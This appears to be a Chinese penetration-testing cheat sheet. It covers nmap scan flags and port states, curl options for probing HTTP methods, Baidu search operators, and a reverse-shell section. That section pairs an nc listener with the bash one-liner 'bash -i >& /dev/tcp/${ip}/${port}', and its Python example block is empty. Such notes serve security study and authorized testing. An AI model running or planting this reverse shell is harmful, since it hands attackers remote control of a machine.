 # <a name="top">渗透工具</a>







----

## <a name="nmap">nmap</a>

**命令格式**： `nmap -A -v -T4 目标主机ip`

+ `-A`： 开启全面扫描
+ `-T4`：扫描过程使用的时序模版，等级越高扫描速度越快，越容易被防火墙屏蔽
+ `-v`： 显示扫描细节



**命令格式**： `nmap -sS 目标主机ip` —— 使用`TCP SYN`方式扫描TCP端口

**命令格式**： `nmap -sU 目标主机ip` —— 扫描UDP端口



侦测到的端口状态分为 6 类：

+ `open` —— 端口开放
+ `closed` —— 端口关闭
+ `filtered` —— 被防火墙屏蔽，无法进一步确认状态
+ `unfiltered`—— 没有被屏蔽，状态未知
+ `open|filtered` —— 状态不确定
+ `closed|filtered` —— 状态不确定




----

## <a name="curl">curl工具</a>

简介： ***用于通过URL传输数据的命令行工具和库***，支持`cookies`、`forms`

支持的协议：

+ `FTP`
+ `HTTP`
+ `HTTPS`
+ `IMAPS`
+ `SCP`
+ ...



**测试目标网站支持的http方法**

```sh
curl -v -X OPTIONS  url
```

+ `-v`： 显示请求的信息 
+ `-X`： 指定请求方法



模拟post方法请求

```sh
curl -d "args" url
# curl -d "name=admin&password=2333" http://www.a.com

# 添加请求头
curl -H "Content-Type:application/json" -X POST --data '{"key":"value"}' url
```



模拟put方法

```sh
curl -v -X PUT url -d "args"
```





<p align="right"><a href="#curl">返回</a>&nbsp|&nbsp<a href="#top">返回目录</a></p>

-----


## <a name="web_shell">Shell反弹</a>

+ 基于bash反弹shell

  ```sh
  # 该命令先在攻击者主机上运行，${port}均是同一个
  nc -lvv ${port}

  # 该命令在被攻击的主机上执行
  bash -i >&  /dev/tcp/${ip}/${port} 0>&1
  ```

  + `bash -i`：打开1个交互的bash


+ `/dev/tcp`： Linux下的特殊设备，打开此文件相当于发出socket调用，建立1个socket连接


+ `${ip}`：一般为攻击者外网ip


+ `${port}`：攻击者外网监听的端口
+ `0>&1`：将标准输入重定向到标准输出



+ 基于python版本的shell反弹

  ```python

  ```

  ​




-----

##  <a name="search_syntax">百度搜索语法</a>

+ `site:domain`：搜索包含指定域名的网页，搜索示例：`site:pan.baidu.com`
+ `title:(关键字)或intitle:关键字`： 搜索网页标题中含有关键词的
+ `inurl:(keyword1 [| keyword2])`：搜索url中含有给定关键词的，`[| keyword2]`是可选部分，是**或**的关系
+ `-("关键词")`： 用法示例：`python爬取图片 -("CSDN")`， 搜索结果过滤掉包含csdn的结果
+ +("关键词")：搜索结果包含给定关键词





